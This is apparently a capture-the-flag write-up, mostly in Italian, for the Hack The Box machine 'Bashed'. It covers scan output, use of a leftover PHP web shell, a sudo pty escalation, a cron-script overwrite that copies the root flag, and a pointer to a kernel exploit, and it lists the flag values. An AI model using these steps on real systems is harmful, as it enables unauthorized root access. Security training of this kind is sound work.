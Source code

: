 #+TITLE: HTB - Bashed
#+AUTHOR: Leonardo Tamiano
#+HTML_HEAD_EXTRA: <style>pre { background-color: #000; color: #bbb; } </style>

* Basic Info
  :PROPERTIES:
  :UNNUMBERED: t
  :END:  
  - *Default IP*: 10.10.10.68
  - *Video*: [[https://www.youtube.com/watch?v=EVGgY-dtBkk][HTB - Bashed]]
  - *Table of contents*:
    #+TOC: headlines 2

  ------------------------
  
  A seguire è riportato un breve walkthrough della macchina *Bashed*
  offerta dalla piattaforma Hack the Box.

* Enumeration
** nmap
*** nmap bashed
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 03:35 CET
Nmap scan report for bashed (10.129.38.153)
Host is up (0.052s latency).
Other addresses for bashed (not scanned): 10.129.34.139
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
    #+end_example

*** nmap -sC -sV bashed
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 03:38 CET
Nmap scan report for bashed (10.129.38.153)
Host is up (0.051s latency).
Other addresses for bashed (not scanned): 10.129.34.139
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.92 seconds
    #+end_example

*** nmap -p- bashed
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 03:43 CET
Nmap scan report for bashed (10.129.38.153)
Host is up (0.051s latency).
Other addresses for bashed (not scanned): 10.129.34.139
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.41 seconds    
    #+end_example

** dirsearch
*** python3 dirsearch.py -r -u http://bashed -e php,txt
    #+begin_example

_|. _ _  _  _  _ _|_    v0.4.0
(_||| _) (/_(_|| (_| )                             

Extensions: php, txt | HTTP method: GET | Threads: 20 | Wordlist size: 7478 | Recursion level: 1

Error Log: /home/leo/repos/dirsearch/logs/errors-20-11-08_03-53-28.log

Target: http://bashed                               

Output File: /home/leo/repos/dirsearch/reports/bashed/_20-11-08_03-53-28.txt

[03:53:28] Starting:
[03:53:28] 301 -  298B  - /php  ->  http://bashed/php/     (Added to queue)
[03:53:30] 403 -  295B  - /.htaccess.bak1
[03:53:30] 403 -  295B  - /.htaccess.orig
[03:53:30] 403 -  297B  - /.htaccess.sample
[03:53:30] 403 -  295B  - /.htaccess.save
[03:53:30] 403 -  293B  - /.htaccessBAK             
[03:53:30] 403 -  293B  - /.htaccessOLD             
[03:53:30] 403 -  294B  - /.htaccessOLD2            
[03:53:30] 403 -  285B  - /.htm                     
[03:53:30] 403 -  286B  - /.html                    
[03:53:30] 403 -  292B  - /.httr-oauth              
[03:53:31] 403 -  285B  - /.php
[03:53:31] 403 -  286B  - /.php3
[03:53:40] 200 -    0B  - /config.php
[03:53:41] 301 -  298B  - /css  ->  http://bashed/css/     (Added to queue)
[03:53:41] 301 -  298B  - /dev  ->  http://bashed/dev/     (Added to queue)
[03:53:41] 200 -   1KB  - /dev/                     
[03:53:42] 301 -  300B  - /fonts  ->  http://bashed/fonts/     (Added to queue)
[03:53:43] 301 -  301B  - /images  ->  http://bashed/images/     (Added to queue)
[03:53:43] 200 -   2KB  - /images/
[03:53:43] 200 -   8KB  - /index.html
[03:53:43] 301 -  297B  - /js  ->  http://bashed/js/     (Added to queue)
[03:53:46] 200 -  934B  - /php/
[03:53:48] 403 -  294B  - /server-status
[03:53:48] 403 -  295B  - /server-status/     (Added to queue)
[03:53:49] 301 -  302B  - /uploads  ->  http://bashed/uploads/     (Added to queue)
[03:53:49] 200 -   14B  - /uploads/
    #+end_example

** priv esc
*** www
**** user flag
     #+begin_src sh
cat /home/arrexel/user.txt  
     #+end_src

**** sudo -l
     #+BEGIN_EXAMPLE
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
     #+END_EXAMPLE

     Può essere exploitata con

     #+BEGIN_SRC sh
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'             
     #+END_SRC

     @@html: <hr style="border: 1px solid #A1283B;" />@@

*** scriptmanager
**** root flag
     #+begin_src sh
echo "import os; os.system('cp /root/root.txt /dev/shm/.logic.txt && chmod 777 /dev/shm/.logic.txt')" > /scripts/test.sh  
     #+end_src

* Walkthrough
** Primi scans
   Facendo i soliti scan con ~nmap~ otteniamo la seguente situazione

   *nmap -p- bashed*
  
   #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 03:35 CET
Nmap scan report for bashed (10.129.38.153)
Host is up (0.052s latency).
Other addresses for bashed (not scanned): 10.129.34.139
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
   #+end_example

   Come possiamo vedere, abbiamo un web server che ascolta sulla porta
   $80$.

** Web shell nel server
   Andando col browser vediamo una pagina abbastanza tranquilla. Se
   però andiamo nella risorsa ~/dev/~ del web server, ovvero all'url
   http://bashed/dev, troviamo una webshell scritta in php nominata
   ~phpbash.php~.

   Utilizzando questa shell siamo in grado di spawnare una reverse
   shell ed entrare nella macchina.

** User flag
   Una volta entrati come l'utente ~www-data~ possiamo prendere
   immediatamente la user flag andando nella home directory dell'utente
   ~arrexel~ ed eseguendo il seguente comando

   #+begin_src sh
cat /home/arrexel/user.txt  
   #+end_src

** Passare a scriptmanager
   Eseguendo il comando ~sudo -l~ otteniamo il seguente output

   #+begin_example
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
   #+end_example

   come possiamo vedere, possiamo eseguire qualsiasi comando come
   l'utente ~scriptmanager~ tramite l'utility ~sudo~. In particolare
   quindi siamo in grado di passare dall'utente ~www-data~ all'utente
   ~scriptmanager~ tramite il seguente comando

   #+begin_src sh
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'             
   #+end_src

** Root flag
   Una volta passati all'utente scriptmanager, possiamo utilizzare il
   tool ~pspy64s~ per vedere che c'è un cronjob che esegue ogni tot
   tempo lo script presente in ~/scripts/test.sh~.

   In particolare possiamo inserire il seguente codice

   #+begin_src sh
echo "import os; os.system('cp /root/root.txt /dev/shm/.logic.txt && chmod 777 /dev/shm/.logic.txt')" > /scripts/test.sh  
   #+end_src

   in modo da copiare la root flag nel fil ~/dev/shm/.logic.txt~ la
   prossima volta che lo script viene eseguito dal cronjob.
   
* Original Walkthrough                                             :noexport:
  In ~/dev~ there are a couple of php browser shell leftovers such as
  ~/dev/phpbash.php~. Like this we get a reverse shell we can use a
  simple php script.
  
  Once inside we can immediately get the user flag with
  
  #+begin_src sh
cat /home/arrexel/user.txt  
  #+end_src

  Now note that with ~sudo -l~ we can execute all types of commands as
  ~scriptmanager~.
    
  Note also that the python executables situated in the ~/scripts~
  folder are executed, as ~root~, every once in a while. There's
  probably a cronbjo for that. To exploit this we need to change into
  ~scriptmanager~ account, which can be done with
  
  #+begin_src sh
sudo -u scriptmanager python -c 'import pty;pty.spawn("/bin/bash")'
  #+end_src
    
  Then, once we are ~scriptmanager~, we can execute the following
  command
    
  #+begin_src sh
echo "import os; os.system('cp /root/root.txt /dev/shm/.logic.txt && chmod 777 /dev/shm/.logic.txt')" > /scripts/test.sh  
  #+end_src
    
  and the next time the scripts in ~/scripts~ are executed we can read
  the root flag ~/dev/shm/.logic.txt~.

** Using CVE-2017-16995
   A different way to get root access is by using [[https://www.exploit-db.com/exploits/44298/][CVE
   2017-16995]]. Simply compile it on local machine, send it on target
   machine and execute it.

* Flags                                                            :noexport:
  - *user*: 2c281f318555dbc1b856957c7147bfc1
  - *root*: cc4f0afe3a1026d402ba10329674a8e2
